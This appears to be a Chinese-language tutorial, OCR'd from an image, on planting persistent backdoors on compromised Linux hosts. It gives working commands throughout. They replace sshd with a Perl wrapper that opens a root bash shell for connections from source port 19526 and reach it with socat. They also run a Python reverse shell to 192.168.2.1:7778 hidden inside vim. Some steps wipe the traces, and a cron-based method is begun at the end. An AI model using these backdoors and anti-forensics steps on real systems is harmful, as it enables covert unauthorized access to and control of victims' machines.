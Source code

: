 mv /usr/sbin/sshd /usr/bin/sshd
开始使用perl进行写脚本

echo '#!/usr/bin/perl' > /usr/sbin/sshd
echo 'exec "/bin/bash -i" if (getpeername(STDIN) =~ /^..LF/);' >> /usr/sbin/sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >> /usr/sbin/sshd
其实整个脚本在第二行执行了个if，如果端口符合要求，则直接建立连接，否则正常执行sshd

其中的LF代表开启的端口号是19526

python2
>> import struct
>> print struct.pack('>I6',19526) 
#输出的内容为 LF
赋予新文件权限并重启sshd

chmod u+x sshd
service sshd restart
连接方式

socat STDIO TCP4:172.16.177.178:22,bind=:19526
清除痕迹

#删除自定义的sshd
rm -rf /usr/sbin/sshd
#将同版本的sshd拷贝到对应目录下
mv /usr/bin/sshd /usr/sbin/sshd
利用vim可执行python脚本预留后门
先准备个python的反弹shell脚本

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.1",7778));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
找到提供vim插件的python的扩展包目录

vim --version  #查看使用的python版本
找到python的扩展位置

pip show requests
进入目录

cd /usr/lib/python2.7/site-packages
将内容写入

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.1",7778));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > dir.py
运行，并删除文件

$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py
清除痕迹

ps aux|grep vim
#获取pid
kill pid
计划任务
因为计划任务使用的是/bin/sh,所以传统的直接通过bash反弹shell是行不通的
